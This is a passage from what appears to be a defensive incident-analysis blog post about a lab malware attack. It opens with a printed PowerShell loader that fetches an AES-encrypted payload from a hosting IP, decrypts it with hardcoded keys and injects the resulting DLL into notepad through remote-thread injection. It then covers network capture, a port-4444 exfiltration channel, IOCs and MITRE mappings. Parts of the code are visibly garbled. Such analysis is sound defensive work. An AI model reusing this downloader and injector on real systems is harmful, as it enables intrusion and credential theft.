$DecodedBytes=[System.Convert]::FromBase64String($EncodedString)
$url=[System.Text.Encoding]::UTF8.GetString($DecodedBytes)
$encryptedData=(New-Object Net.WebClient).DownloadData($url)
$aes=[System.Security.Cryptography.Aes]::Create()
$aes.Mode=1s.Padding=3
$keyHex="8a4a35876563f1ea8baad6cda0099c24d53d4ce5670b3b23b13063127611bb37"
$keyBytes=New-Object byte[] 32for($i=0;$i-lt32;$i++){$keyBytes[$i]=[Convert]::ToByte($keyHex.Substring($i*2,2),16)}
$aes.Key=$keyBytes
$ivHex="c0a675360817d8dba62cc79e2fa77734"
$ivBytes=New-Object byte[] 16($i=0;$i-lt16;$i++){$ivBytes[$i]=[Convert]::ToByte($ivHex.Substring($i*2,2),16)}
$aes.IV=$ivBytes
$decryptor=$aes.CreateDecryptor()
$decryptedData=$decryptor.TransformFinalBlock($encryptedData,0,$encryptedData.Length)
$decryptor.Dispose()
$aes.Dispose()
mpDll=[System.IO.Path]::GetTempFileName()+".dll"
[System.IO.File]::WriteAllBytes($tempDll,$decryptedData)Add-Type -TypeDefinition "using System;using System.Runtime.InteropServices;public class N{[DllImport("kernel32")]public static extern IntPtr OpenProcess(uint a,bool b,uint c);[DllImport("kernel32")]public static extern IntPtr VirtualAllocEx(IntPtr a,IntPtr b,uint c,uint d,uint e);[DllImport("kernel32")]public static extern bool WriteProcessMemory(IntPtr a,IntPtr b,byte[] c,uint d,out IntPtr e);[DllImport("kernel32")]public static extern IntPtr CreateRemoteThread(IntPtr a,IntPtr b,uint c,IntPtr d,IntPtr e,uint f,out uint g);[DllImport("kernel32")]public static extern IntPtr GetProcAddress(IntPtr a,string b);[DllImport("kernel32")]public static extern IntPtr GetModuleHandle(string a);[DllImport("kernel32")]public static extern uint WaitForSingleObject(IntPtr a,uint b);[DllImport("kernel32")]public static extern bool CloseHandle(IntPtr a);[DllImport("kernel32")]public static extern bool VirtualFreeEx(IntPtr a,IntPtr b,uint c,uint d);}"
o=Get-Process -Name "notepad" -ErrorAction SilentlyContinueif(-not $pro){Start-Process "C:\Windows\System32\notepad.exe" -WindowStyle Hidden;Start-Sleep 2;
$pro=Get-Process "notepad"}
$procId=$pro[0].Id
$h=[N]::OpenProcess(0x1F0FFF,$false,$procId)
$b=[System.Text.Encoding]::ASCII.GetBytes($tempDll+"0")
$a=[N]::VirtualAllocEx($h,[IntPtr]::Zero,$b.Length,0x3000,0x04)
$w=[IntPtr]::Zero[N]::WriteProcessMemory($h,$a,$b,$b.Length,[ref]$w)
$l=[N]::GetProcAddress([N]::GetModuleHandle("kernel32.dll"),"LoadLibraryA")
$t=0$th=[N]::CreateRemoteThread($h,[IntPtr]::Zero,0,$l,$a,0,[ref]$t)
if($th-ne[IntPtr]::Zero)
{
	[N]::WaitForSingleObject($th,5000)|Out-Null;[N]::CloseHandle($th)}[N]::VirtualFreeEx($h,$a,0,0x8000)[N]::CloseHandle($h)Start-Sleep 2
	try{
		Remove-Item $tempDll -Force -ErrorAction SilentlyContinue
		}catch{}
```
In this powershell code we found that it download a file from the payload-hosting server we observed `192.168.59.152` and decrypt it using :

key = `8a4a35876563f1ea8baad6cda0099c24d53d4ce5670b3b23b13063127611bb37`
iv = `c0a675360817d8dba62cc79e2fa77734`
mode : AES-CBC 

data in the base64 : `http://192.168.59.152/user_profiles_photo/object.dat` , and this use it to be inject it into `notepad` after downloadin it and decrypt it 

And if we have a NDR or any network intercepter we can identify the urls used for the other stages , also we can dumped the injected process and analyze it using any memory analyze tools 

### Bonus : Network Analysis 

Before starting the attack i have turned on capturing network traffic using falcon Real Time Response (RTR), i have done the following :

```cmd
run "C:\Windows\System32\netsh.exe" -CommandLine="trace start capture=yes tracefile=C:\capture.etl" -Wait
```
Then :
```cmd
run "C:\Windows\System32\netsh.exe" -CommandLine="trace show status" -Wait
```
Finally after finishing the attack ( or if there is a real attack ) , we can have a copy of the `capture.etl` file that has the network traffic using :
```cmd
 run "C:\Windows\System32\netsh.exe" -CommandLine="trace stop" -Wait && get C:\Windows\Temp\capture.etl
```
Then we will need to convert it to pcacpng so we can analyze it in `Wireshark` using `etl2pcapng` you can find it ob github , and we have now the pcapng file for the analysis 

Now we will start by examing the artifact we gained until now :

Suspicious IP address : `192.168.59.152`

ports connected : 80 , 4444

Now i will examin the IP with port `80` :



As we can see that the IP `192.168.59.152` has 3 GETs to 3 objects : `object.dat` , `captcha.bin` and `chromelevator.exe` , and this order can reveal :

- Powershell downloaded `object.dat`
- The injected dll in notepad downloaded `captcha.bin` 
- The injected dll in msedge downloaded `chromelevator.exe`

As we saw before in the process chain , Now we move to port `4444` :



Here we can see that its a one-way traffic from our infected machine to the suspicous IP , and if we incpect TCP packets we see that the first packets is Length of data then the data :



Offset `0` is related to Length of the data and from offset `0x4` to `0x34` its the data then the `OK` after finishind the send and so on 
```cmd
 [4-byte length][encrypted data][OK]
  ```

All the data are encrypted so we need to decrypte it , so this can confirm its an exfiltration port ( we can approve that if we analysis the malwares "next blog :)")


### IOCs 

| Type    | Indicator                         | Context                        |
| ------- | --------------------------------- | ------------------------------ |
| SHA-256 | `b4e7bc24bf3f5c3da2eb6e9ec5ec10f90099defa91b820f2f3fc70dd9e4785c4`                       | PowerShell sample              |
| IP      | `192.168.59.152`                  | Payload hosting / suspected C2 |
| URL     | `/user_profiles_photo/object.dat` | Encrypted payload              |
| File    | `ll.ps1`                          | Initial script                 |
| Process | `chromelevator.exe`               | Browser data-related tool      |
| File    | `tmpAE74.tmp.dll`,  `dll_1920_4308843_41.dll`                 | Decrypted/injected DLL         |

### MITRE Technique mapping

#### Confirmed 

| MITRE Technique                         | Evidence                                                                                                |
| --------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| T1059.001 – PowerShell                  | Execution of `ll.ps1` and subsequent PowerShell stages                                                  |
| T1055 – Process Injection               | `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` targeting `notepad.exe` |
| T1105 – Ingress Tool Transfer           | Download of `object.dat` from `192.168.59.152`                                                          |
| T1027 – Obfuscated Files or Information | Base64-encoded values and fragmented PowerShell code                                                    |
| T1555.003 – Credentials from Web Browsers      | Browser `User Data` directory access and `chromelevator.exe` activity  
| T1041 – Exfiltration Over C2 Channel           | Suspicious network activity involving the same infrastructure ( To confirm exfiltration we need malware analysis of the suspicious DLLs) |

#### SuspectedPotential / Suspected

| MITRE Technique                                | Evidence                                                                                      |
| ---------------------------------------------- | --------------------------------------------------------------------------------------------- |
| T1547.001 – Registry Run Keys / Startup Folder | Access to the `Run` registry key, but no confirmed creation or modification                   |


